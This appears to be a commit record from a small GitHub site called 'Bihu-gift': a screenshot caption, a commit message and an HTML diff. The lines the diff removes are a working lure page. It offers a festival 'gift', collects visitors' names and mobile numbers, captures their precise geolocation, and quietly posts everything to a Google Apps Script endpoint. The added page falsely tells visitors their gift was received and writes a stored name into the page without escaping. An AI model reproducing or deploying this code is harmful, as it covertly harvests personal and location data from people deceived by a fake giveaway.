

Before and after one commit to nehahacker-call/Bihu-gift, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 361-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp index.html for Bihu celebration themehi
hi

```diff
--- a/index.html
+++ b/index.html
@@ -1,103 +1,71 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>বিহুৰ উপহাৰ (Bihu Gift)</title>
+  <title>Happy Bihu 🎉</title>
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
 
   <style>
     body {
-      font-family: Arial;
+      margin: 0;
+      min-height: 100vh;
       display: flex;
       justify-content: center;
       align-items: center;
-      min-height: 100vh;
-      margin: 0;
-      background: linear-gradient(135deg, blue, purple);
+      background: radial-gradient(circle, orange, red);
+      font-family: 'Comic Sans MS', cursive;
+      text-align: center;
+      color: white;
     }
-    form {
-      background: aqua;
-      padding: 30px;
-      border-radius: 12px;
-      max-width: 400px;
-      width: 100%;
-      text-align: center;
-      box-shadow: 0 0 15px rgba(0,0,0,0.3);
+    .box {
+      background: rgba(0,0,0,0.4);
+      padding: 40px;
+      border-radius: 20px;
+      animation: pop 1.2s ease;
     }
-    input, button {
-      width: 100%;
-      padding: 10px;
-      margin: 8px 0;
-      border-radius: 6px;
-      border: none;
+    h1 {
+      font-size: 36px;
+      margin-bottom: 10px;
     }
-    button {
-      background: green;
-      color: white;
-      font-size: 16px;
-      cursor: pointer;
+    p {
+      font-size: 18px;
     }
-    #status {
+    .name {
+      color: #00ffcc;
+      font-size: 26px;
       font-weight: bold;
-      margin-top: 10px;
+      animation: glow 1.5s infinite alternate;
+    }
+    @keyframes pop {
+      0% { transform: scale(0.5); opacity: 0; }
+      100% { transform: scale(1); opacity: 1; }
+    }
+    @keyframes glow {
+      from { text-shadow: 0 0 5px yellow; }
+      to { text-shadow: 0 0 20px white; }
     }
   </style>
 </head>
 
 <body>
 
-<form id="studentForm">
-  <h2> Bihu Gift 🎁 </h2>
-
-  <input type="text" name="name" placeholder="Name" required>
-  <input type="text" name="reason" placeholder="Gift type" required>
-  <input type="text" name="mobile" placeholder="Mobile Number" required>
-
-  <button type="submit">Received Gift 🎁</button>
-  <p id="status">Getting location…</p>
-</form>
+<div class="box">
+  <h1>🌸 Happy Rongali Bihu 🌸</h1>
+  <p id="nameText"></p>
+  <p>🎁 Your gift has been received successfully!</p>
+  <p>💃🕺 Celebrate with joy & happiness</p>
+  <p>— ZX Family —</p>
+</div>
 
 <script>
-const form = document.getElementById("studentForm");
-const statusText = document.getElementById("status");
+  const userName = localStorage.getItem("bihuName");
 
-let lockedPosition = null;
-
-// Get location (optional)
-navigator.geolocation.getCurrentPosition(
-  pos => {
-    lockedPosition = pos;
-    statusText.innerText = "Location captured ✔";
-  },
-  () => {
-    statusText.innerText = "ZX+++";
-    lockedPosition = null;
-  },
-  { enableHighAccuracy: true, timeout: 10000 }
-);
-
-// Submit
-form.addEventListener("submit", function(e) {
-  e.preventDefault();
-
-  const data = {
-    name: form.name.value,
-    reason: form.reason.value,
-    mobile: form.mobile.value,
-    latitude: lockedPosition ? lockedPosition.coords.latitude : "",
-    longitude: lockedPosition ? lockedPosition.coords.longitude : "",
-    accuracy: lockedPosition ? lockedPosition.coords.accuracy : ""
-  };
-
-  fetch("https://script.google.com/macros/s/AKfycbz3rQv9nyn-B_NNyy2Vyj6WN2hZcsFgpncziEsCGhn4sB-Cwm-gP52RnvphqzH1QxCL/exec", {
-    method: "POST",
-    headers: { "Content-Type": "application/json" },
-    body: JSON.stringify(data)
-  });
-
-  // 👉 NEW PAGE OPEN
-  window.location.href = "bihu.html";
-
-});
+  if (userName) {
+    document.getElementById("nameText").innerHTML =
+      "🎊 <span class='name'>" + userName + "</span>, Enjoy the Celebration! 🎊";
+  } else {
+    document.getElementById("nameText").innerHTML =
+      "🎊 Enjoy the Celebration! 🎊";
+  }
 </script>
 
 </body>
```
